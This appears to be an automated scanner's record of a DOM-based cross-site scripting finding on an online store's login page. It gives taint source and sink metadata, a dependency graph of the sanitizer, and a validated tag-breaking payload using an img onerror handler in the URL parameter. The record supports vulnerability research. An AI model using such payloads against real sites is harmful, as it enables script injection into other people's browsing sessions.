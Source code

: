 // Finding: 7dbd3d85-e0e0-42ac-bc40-6f5fab638efc
// Finding.url: https://www.example128.com/webapp/wcs/stores/servlet/MSResLogin?catalogId=10051&myAcctMain=1&langId=-24&storeId=10151&intid=header_sign-in_sign-in&pagestat=</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2ac40b6ea75f4b7896e61f40772c8a13')><!--/*
// Finding.parentloc: https://www.example128.com/webapp/wcs/stores/servlet/MSResLogin?catalogId=10051&myAcctMain=1&langId=-24&storeId=10151&intid=header_sign-in_sign-in&pagestat=</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2ac40b6ea75f4b7896e61f40772c8a13')><!--/*
// Finding.domain: www.example128.com
// Finding.base_domain: example128.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 0
// Finding.end: 15
// Finding.original_uuid: ecd354ec-8eff-43a1-aaf0-486a114cdcff
// Finding.TwentyFiveMillionFlowsId: -1335182551
// Finding.script: https://tags.example101.com/utag/marksandspencer/main/prod/utag.318.js?utv=ut4.46.202105050855
// Finding.line: 55
// Exploit.uuid: 2ac40b6e-a75f-4b78-96e6-1f40772c8a13
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: &pagestat=
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: pagestat=</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: pagestat=</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 152
// Exploit.end_taint_url: 169
// Exploit.replace_begin_url: 152
// Exploit.replace_end_url: 169
// Exploit.replace_begin_param: 83
// Exploit.replace_end_param: 100
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -90114724
// DepGraph.sanitizer_hash: 1781099973
// Merged split and join statements 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="split"];
n2 [shape=box, label="Lit: ?"];
n3 [shape=box, label="Var: x"];
n4 [shape=ellipse, label="preg_replace"];
n5 [shape=box, label="RegExp: /[&]/"];
n6 [shape=box, label="Lit: &"];
n7 [shape=box, label="Var: x"];
n8 [shape=box, label="Var: x"];
n9 [shape=doubleoctagon, label="Return: x"];
n3 -> n0;
n1 -> n2;
n1 -> n3;
n7 -> n1;
n4 -> n5;
n4 -> n6;
n4 -> n7;
n8 -> n4;
n9 -> n8;
}
